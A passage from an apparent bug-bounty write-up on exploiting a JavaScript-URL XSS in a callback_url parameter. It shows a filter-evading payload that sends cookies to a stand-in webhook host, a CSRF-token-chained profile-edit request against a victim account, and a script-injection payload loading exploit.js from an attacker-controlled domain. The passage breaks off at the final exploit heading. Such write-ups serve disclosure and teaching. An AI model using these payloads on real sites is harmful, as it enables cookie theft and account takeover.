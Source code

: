 After confirming we could execute JavaScript, we focused on cookie theft. Our initial attempt with `document.cookie` was blocked, but we bypassed this restriction using string concatenation and optional chaining:

```javascript
javascript:fetch?.('https://WEBHOOK/?c='+document['co'+'okie'])
```

**Success!** We successfully exfiltrated the user's cookies to our webhook. However, when attempting full account takeover, we discovered that a critical authentication cookie was marked as [HTTPOnly](https://owasp.org/www-community/HttpOnly), preventing JavaScript access.

### Escalation to Profile Manipulation

Rather than settling for cookie theft alone, we decided to find additional impact. We discovered two important endpoints:

1. **User Information Endpoint**: `https://example.com/users/${username}` - for reading sensitive user data
2. **Profile Edit Endpoint**: `https://example.com/users/${username}/edit` - for modifying user information

The edit endpoint required:
- **Method**: POST
- **Content-Type**: `application/x-www-form-urlencoded`
- **CSRF Token**: Valid token from user session

#### Payload Development

Our initial payload attempted to fetch a CSRF token and modify the user profile:

```javascript
javascript:fetch?.('https://example.com/webroutes/auth/csrf',{credentials:'include'})
  .then(r=>r.json())
  .then(j=>fetch?.('https://example.com/user/VICTIM/edit',{
    method:'POST',
    credentials:'include',
    headers:{'Content-Type':'application/x-www-form-urlencoded'},
    body:'csrf_token='+encodeURIComponent(j.csrf)+'&name=ATTACKER'+'&bio=PWNED'+'&website_link=https%3A%2F%2Fpwned.com'+'&mobile=%2B911212121212'
  }));
```

However, this payload encountered encoding issues and was excessively long.

#### Script Injection Approach

We refined our approach by injecting a script element that loads our exploit from an external source:

```
https://example.com/social-ads/?callback_url=javascript:d=document;a='scr';b='ipt';
s=d.createElement?.(a%2Bb);s.src='https://DOMAIN_WE_CONTROL/exploit.js';d.body.appendChild?.(s)
```

### Final Exploit Code
